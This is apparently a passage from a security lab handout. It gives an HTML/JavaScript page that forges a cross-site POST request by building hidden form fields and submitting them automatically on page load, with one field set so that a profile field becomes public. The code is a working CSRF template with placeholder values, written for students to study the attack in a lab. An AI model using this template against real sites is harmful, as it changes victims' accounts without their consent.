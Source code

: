 \begin{lstlisting}
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers. 
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' 
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");
	 
    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";
	 
    // Append the form to the current page.
    document.body.appendChild(p);
	 
    // Submit the form
    p.submit();
}

	
// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}


In Line~, the value \texttt{2} sets the access level of a field to public. 
This is needed, otherwise, the access level will be set by default to private, so others cannot
see this field. It should be noted that when copy-and-pasting the above code
from a PDF file, the  single quote character in the program may become 
something else (but still looks like a single quote). That will cause 
syntax errors. Replacing all the single quote symbols with the one typed from 
your keyboard will fix those errors. 


\paragraph{Questions.}
In addition to describing your attack in full details, you also need to
answer the following questions in your report:

